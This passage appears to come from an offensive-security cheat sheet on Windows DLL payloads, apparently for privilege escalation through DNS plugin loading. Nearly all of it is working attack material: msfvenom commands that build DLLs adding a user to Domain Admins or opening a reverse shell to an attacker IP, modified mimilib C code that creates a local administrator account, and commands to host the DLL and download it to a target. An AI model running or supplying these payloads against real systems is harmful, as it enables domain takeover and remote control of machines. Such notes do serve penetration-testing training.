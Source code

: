 ## 💣 Custom DLL Generation

### Method 1: MSFVenom Payload
```bash
# Generate user addition payload
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# Expected output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

### Method 2: Reverse Shell Payload
```bash
# Generate reverse shell DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f dll -o revshell.dll

# Set up listener
nc -lnvp 443
```

### Method 3: Custom Mimilib.dll
```c
// Modified kdns.c for command execution
DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
    FILE * kdns_logfile;
    if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
    {
        klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
        fclose(kdns_logfile);
        system("net user hacker P@ssw0rd /add && net localgroup administrators hacker /add");
    }
    return ERROR_SUCCESS;
}
```

## 🌐 DLL Hosting and Delivery

### HTTP Server Method
```bash
# Start Python HTTP server
python3 -m http.server 7777

# Expected access log:
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -

### Download to Target
```powershell
# Download DLL to target system
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"

# Alternative with Invoke-WebRequest
Invoke-WebRequest -Uri "http://10.10.15.152:1234/adduser.dll" -OutFile "C:\Users\netadm\Desktop\adduser.dll"
```
